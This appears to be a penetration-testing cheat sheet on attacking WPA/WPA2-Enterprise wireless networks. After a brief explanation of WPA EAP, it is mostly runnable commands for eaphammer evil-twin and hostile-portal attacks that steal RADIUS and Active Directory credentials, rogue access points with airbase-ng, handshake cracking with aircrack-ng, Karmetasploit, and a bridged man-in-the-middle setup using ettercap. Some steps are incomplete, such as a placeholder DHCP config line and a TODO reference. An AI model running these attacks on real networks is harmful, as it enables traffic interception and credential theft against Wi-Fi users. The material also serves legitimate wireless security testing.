 # Wifi - Enterprise Network

## WPA and WPA2 EAP

WPA EAP refers to the use of the Extensible Authentication Protocol (EAP) within the context of the Wi-Fi Protected Access (WPA) security standard for wireless networks. WPA is a suite of security protocols to secure wireless local area networks (WLANs) and is a response to the vulnerabilities of the older Wired Equivalent Privacy (WEP) standard. WPA EAP is specifically associated with the enterprise mode of WPA, which uses 802.1X authentication to provide a higher level of security compared to the personal mode of WPA, which uses a pre-shared key (PSK).


* [s0lst1c3/eaphammer](https://github.com/s0lst1c3/eaphammer) - Targeted evil twin attacks against WPA2-Enterprise networks.
    ```ps1
    git clone https://github.com/s0lst1c3/eaphammer.git
    ./kali-setup

    # generate certificates
    ./eaphammer --cert-wizard

    # launch attack
    ./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
    ```

* [Stealing RADIUS Credentials Using EAPHammer](https://github.com/s0lst1c3/eaphammer/wiki/II.-Stealing-RADIUS-Credentials-Using-EAPHammer)
    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid Example --channel 2 --interface wlan0 --auth wpa-eap --creds
    ```

* [Stealing AD Credentials Using Hostile Portal Attacks](https://github.com/s0lst1c3/eaphammer/wiki/III.-Stealing-AD-Credentials-Using-Hostile-Portal-Attacks)
    ```ps1
    ./eaphammer --interface wlan0 --bssid 1C:7E:E5:97:79:B1 --essid EvilC0rp --channel 6 --auth wpa-eap --hostile-portal
    ./eaphammer --interface wlan0 --essid TotallyLegit --hw-mode n --channel 36 --auth open --hostile-portal
    ```

* [Performing Captive Portal Attacks - Evil Twin Attacks](https://github.com/s0lst1c3/eaphammer/wiki/V.-Performing-Captive-Portal-Attacks)
    ```ps1
    ./eaphammer --bssid 1C:7E:E5:97:79:B1 --essid HappyMealz --channel 149 --interface wlan0 --captive-portal
    ./eaphammer --captive-portal -e guestnet -i wlan0 --portal-template rogue-cert-prompt --lhost 10.0.0.10 --payload secure.crt
    ```


## Rogue Access Point

### WPA handshake

```powershell
airmon-ng start wlan0 3
airodump-ng -c 3 -d $ATTACKER_MAC -w airbase mon0

# basic fake AP
airbase-ng -c 3 -e $AP_SSID mon0
airbase-ng -c 3 -e $AP_SSID -z 4 -W 1 mon0
-W 1 : WEP

# get a WPA handshake if the client connect
aircrack-ng -w /pentest/passwords/john/password.lst airbase-01.cap
```


### Karmetasploit

```powershell
# install a dhcp server
apt install dhcp3-server

airmon-ng start wlan0 3
airbase-ng -c 3 -P -C 60 -e $AP_MAC -v mon0
-P: respond to all probes
ifconfig at0 up 10.0.0.1/24

mkdir -p /var/run/dhcpd
chown -R dhcpd:dhcpd /var/run/dhcpd
touch /var/lib/dhcp3/dhcpd.leases

"CONF DHCP FROM VIDEO 75" > /tmp/dhcpd.conf

touch /tmp/dhcp.log
chown -R dhcpd:dhcpd /tmp/dhcp.log
dhcpd3 -f -cf /tmp/dhcpd.conf -pf /var/run/dhcpd/pid -lf /tmp/dhcp/log at0

karma.rc from metasploit
# comment the first 2 lines (load sqlite)
msfconsole -r /root/karma.rc
```


### Access Point MITM

```powershell
airmon-ng start wlan0 3
airbase-ng -c 3 -e $AP_SSID_SPOOFED mon0

# create a bridged interface
# apt-get install bridge-utils
brctl addbr hacker
brctl addif hacker eth0
brctl addif hacker at0

# assign IP addresses
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
ifconfig hacker 192.168.1.8 up

# enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# mitm tools
driftnet
ettercap -G
Sniff > Unified sniffing > Hacker Interface
```


## References

* [TODO](#)